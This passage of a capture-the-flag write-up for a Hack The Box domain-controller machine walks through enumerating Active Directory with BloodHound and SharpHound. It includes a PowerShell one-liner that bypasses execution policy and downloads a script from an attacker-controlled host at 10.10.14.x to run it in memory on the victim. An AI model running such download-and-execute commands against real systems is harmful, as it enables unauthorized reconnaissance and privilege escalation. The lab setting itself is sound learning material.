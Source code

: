 ```
DistinguishedName : CN=EXCH01,CN=Computers,DC=htb,DC=local
DNSHostName       : EXCH01.htb.local
Enabled           : True
Name              : EXCH01
ObjectClass       : computer
ObjectGUID        : babfbb15-e032-4376-bd03-6f131e7cfd4c
SamAccountName    : EXCH01$
SID               : S-1-5-21-3072663084-364016917-1341370565-1103
UserPrincipalName : 
```
We are in a DC box so the first thing,is to search , if we have any weak in the DC users/group conf, which let us to escalate to the Domain.

For that, i used  BloodHound to have all the DC objects graph :  https://github.com/BloodHoundAD/BloodHound/releases/tag/2.0.5

This part was very long, because i had to find the right version of bloodhound which the powershell script "SharHound.ps1", will work without errors.

BloodHound is an app which draw a graph about any objects from the DC, also relationship between all Domain objects (users, groups etc ).

#### Nota : Stable Release version of BloodHound : version 2.0.5  

Create json files: 

Use "SharpHound.ps1" from  "BloodHound-version-release-2.0.5/resources/app/Ingestors/"

And from the victim we execute it with powershell like: 
```
$ powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.x/SharpHound.ps1');invoke-bloodhound -collectionmethod all"
Initializing BloodHound at 5:04 PM on 10/17/2019
Resolved Collection Methods to Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM
Building GUID Cache
Starting Enumeration for htb.local
Waiting for enumeration threads to finish
EXCH01.HTB.LOCAL did not respond to ping
Status: 123 objects enumerated (+123 41/s --- Using 106 MB RAM )
Finished enumeration for htb.local in 00:00:03.5622425
1 hosts failed ping. 0 hosts timedout.
Waiting for writer thread to finish

Compressing data to C:\windows\system32\spool\drivers\color\20191017170426_BloodHound.zip.
You can upload this file directly to the UI.
Finished compressing files!
```

This will create a zip with all .json files.

##### Launch BloodHound:

Firsly we have to install (neo4j) if it's not already installed.
Start it like : 
```
$ sudo service neo4j start 
```
And from BloodHound-version-release-2.0.5/ , Launch : 
```
$ ./BloodHound
```
We have now to import all .json files and we can search any objects(User, Group, Domain ..)  with putting the name in the textArea.
